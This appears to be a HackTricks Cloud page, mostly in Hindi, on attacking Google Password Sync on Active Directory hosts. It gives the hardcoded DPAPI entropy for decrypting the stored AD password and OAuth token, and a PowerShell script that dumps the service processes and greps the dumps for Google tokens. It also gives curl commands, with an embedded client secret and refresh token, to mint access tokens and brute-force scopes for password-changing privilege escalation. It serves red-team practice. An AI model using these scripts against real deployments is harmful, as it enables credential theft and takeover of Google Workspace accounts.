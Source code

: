 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

यह वह बाइनरी और सेवा है जो Google उपयोगकर्ताओं के पासवर्ड को **AD** और Workspace के बीच **सिंक** में रखने के लिए प्रदान करता है। हर बार जब एक उपयोगकर्ता AD में अपना पासवर्ड बदलता है, तो इसे Google पर सेट किया जाता है।

यह `C:\Program Files\Google\Password Sync` में स्थापित होता है जहाँ आप इसे कॉन्फ़िगर करने के लिए बाइनरी `PasswordSync.exe` और `password_sync_service.exe` (सेवा जो चलती रहेगी) पा सकते हैं।

### GPS - Configuration

इस बाइनरी (और सेवा) को कॉन्फ़िगर करने के लिए, इसे **Workspace में एक सुपर एडमिन प्रिंसिपल तक पहुंच देना आवश्यक है**:

* Google के साथ **OAuth** के माध्यम से लॉगिन करें और फिर यह **पंजीकरण में एक टोकन (एन्क्रिप्टेड) स्टोर करेगा**
* केवल GUI के साथ डोमेन कंट्रोलर्स में उपलब्ध
* **Workspace उपयोगकर्ताओं को प्रबंधित करने** के लिए कुछ **GCP सेवा खाता क्रेडेंशियल्स** (json फ़ाइल) देना
* बहुत बुरा विचार क्योंकि ये क्रेडेंशियल्स कभी समाप्त नहीं होते और इसका दुरुपयोग किया जा सकता है
* Workspace पर SA को एक्सेस देना बहुत बुरा विचार है क्योंकि SA GCP में समझौता किया जा सकता है और Workspace पर पिवट करना संभव होगा
* Google इसे GUI के बिना डोमेन नियंत्रित करने के लिए आवश्यक करता है
* ये क्रेडेंशियल्स भी पंजीकरण में स्टोर होते हैं

AD के संबंध में, इसे वर्तमान **एप्लिकेशन संदर्भ, गुमनाम या कुछ विशिष्ट क्रेडेंशियल्स** का उपयोग करने के लिए इंगित करना संभव है। यदि क्रेडेंशियल्स विकल्प चुना गया है, तो **उपयोगकर्ता नाम** एक फ़ाइल में **डिस्क** के अंदर स्टोर किया जाता है और **पासवर्ड** **एन्क्रिप्टेड** होता है और **पंजीकरण** में स्टोर होता है।

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.
{% endhint %}

फ़ाइल **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** में यह संभव है कि कॉन्फ़िगरेशन का एक भाग जैसे **`baseDN`** AD के लिए कॉन्फ़िगर किया गया है और **`username`** जिनके क्रेडेंशियल्स का उपयोग किया जा रहा है।

पंजीकरण में **`HKLM\Software\Google\Google Apps Password Sync`** में **एन्क्रिप्टेड रिफ्रेश टोकन** और **एन्क्रिप्टेड पासवर्ड** AD उपयोगकर्ता के लिए (यदि कोई हो) पाया जा सकता है। इसके अलावा, यदि टोकन के बजाय कुछ **SA क्रेडेंशियल्स** का उपयोग किया जाता है, तो यह भी संभव है कि उन्हें उस पंजीकरण पते में एन्क्रिप्टेड पाया जाए। इस पंजीकरण के अंदर **मान** केवल **प्रशासकों** द्वारा **पहुँच योग्य** होते हैं।

एन्क्रिप्टेड **पासवर्ड** (यदि कोई हो) कुंजी **`ADPassword`** के अंदर है और इसे **`CryptProtectData`** API का उपयोग करके एन्क्रिप्ट किया गया है। इसे डिक्रिप्ट करने के लिए, आपको उसी उपयोगकर्ता होना चाहिए जिसने पासवर्ड सिंक को कॉन्फ़िगर किया था और इस **एंट्रॉपी** का उपयोग करना चाहिए जब आप **`CryptUnprotectData`** का उपयोग कर रहे हों: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

एन्क्रिप्टेड टोकन (यदि कोई हो) कुंजी **`AuthToken`** के अंदर है और इसे **`CryptProtectData`** API का उपयोग करके एन्क्रिप्ट किया गया है। इसे डिक्रिप्ट करने के लिए, आपको उसी उपयोगकर्ता होना चाहिए जिसने पासवर्ड सिंक को कॉन्फ़िगर किया था और इस **एंट्रॉपी** का उपयोग करना चाहिए जब आप **`CryptUnprotectData`** का उपयोग कर रहे हों: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
इसके अलावा, इसे **`0123456789abcdefghijklmnopqrstv`** शब्दकोश के साथ base32hex में भी एन्कोड किया गया है।

एंट्रॉपी मानों को उपकरण का उपयोग करके पाया गया। इसे **`CryptUnprotectData`** और **`CryptProtectData`** के लिए कॉल की निगरानी करने के लिए कॉन्फ़िगर किया गया था और फिर इस उपकरण का उपयोग `PasswordSync.exe` को लॉन्च और मॉनिटर करने के लिए किया गया जो कॉन्फ़िगर किए गए पासवर्ड और ऑथ टोकन को शुरू में डिक्रिप्ट करेगा और उपकरण **दोनों मामलों में उपयोग की गई एंट्रॉपी के लिए मान** दिखाएगा:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

ध्यान दें कि इन APIs के लिए कॉल के इनपुट या आउटपुट में **डिक्रिप्टेड** मान भी देखना संभव है (यदि किसी बिंदु पर Winpeas काम करना बंद कर दे)।

यदि पासवर्ड सिंक **SA क्रेडेंशियल्स के साथ कॉन्फ़िगर किया गया था**, तो यह भी पंजीकरण में कुंजी के अंदर **`HKLM\Software\Google\Google Apps Password Sync`** में स्टोर किया जाएगा।

### GPS - Dumping tokens from memory

GCPW के साथ की तरह, `PasswordSync.exe` और `password_sync_service.exe` प्रक्रियाओं की मेमोरी को डंप करना संभव है और आप रिफ्रेश और एक्सेस टोकन (यदि पहले से उत्पन्न हो चुके हैं) पा सकेंगे।\
मुझे लगता है कि आप AD कॉन्फ़िगर किए गए क्रेडेंशियल्स भी पा सकते हैं।

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - रिफ्रेश टोकन से एक्सेस टोकन उत्पन्न करना

रिफ्रेश टोकन का उपयोग करके, इसे और निम्नलिखित कमांड में निर्दिष्ट क्लाइंट आईडी और क्लाइंट सीक्रेट का उपयोग करके एक्सेस टोकन उत्पन्न करना संभव है:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
ध्यान दें कि रिफ्रेश टोकन होने के बावजूद, आप एक्सेस टोकन के लिए कोई भी स्कोप अनुरोध नहीं कर सकते क्योंकि आप केवल **उन स्कोप्स का अनुरोध कर सकते हैं जो उस एप्लिकेशन द्वारा समर्थित हैं जहां आप एक्सेस टोकन उत्पन्न कर रहे हैं**।

इसके अलावा, रिफ्रेश टोकन हर एप्लिकेशन में मान्य नहीं है।
{% endhint %}

डिफ़ॉल्ट रूप से GPS के पास उपयोगकर्ता के रूप में हर संभावित OAuth स्कोप तक पहुंच नहीं होगी, इसलिए निम्नलिखित स्क्रिप्ट का उपयोग करके हम उन स्कोप्स को खोज सकते हैं जिन्हें `refresh_token` के साथ `access_token` उत्पन्न करने के लिए उपयोग किया जा सकता है:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

और यह वह आउटपुट है जो मुझे लेखन के समय मिला:
```
https://www.googleapis.com/auth/admin.directory.user
```
जो वही है जो आपको मिलता है यदि आप कोई दायरा निर्दिष्ट नहीं करते हैं।

{% hint style="danger" %}
इस दायरे के साथ आप **एक मौजूदा उपयोगकर्ता का पासवर्ड संशोधित कर सकते हैं ताकि विशेषाधिकार बढ़ सके**।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) जांचें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
